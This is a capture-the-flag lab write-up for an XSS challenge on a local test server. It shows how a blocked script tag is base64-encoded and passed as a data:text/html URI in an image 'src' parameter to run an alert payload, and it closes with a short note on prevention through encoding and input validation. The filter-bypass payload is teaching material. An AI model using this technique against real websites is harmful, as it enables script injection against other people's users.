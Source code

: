 # 04_iamge_xss

## Instruction

At the following page

```
http://192.168.56.101/?page=media&src=nsa

```

We have dependencie between url and image on screen
If we'll try directly paste `<script>alert(1)</script>` nothing will work
Although we can convert this script to base64 format

```
echo -n '<script>alert("123")</script>' | base64

```

The output is `PHNjcmlwdD5hbGVydCgiMTIzIik8L3NjcmlwdD4=`

So we can access to the following url and get our flag

```
http://192.168.56.101/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiMTIzIik8L3NjcmlwdD4=
```

## How to prevent

Can be prevented usign data encoding and input validation.

Cross Site Scripting Prevention Cheat Sheet
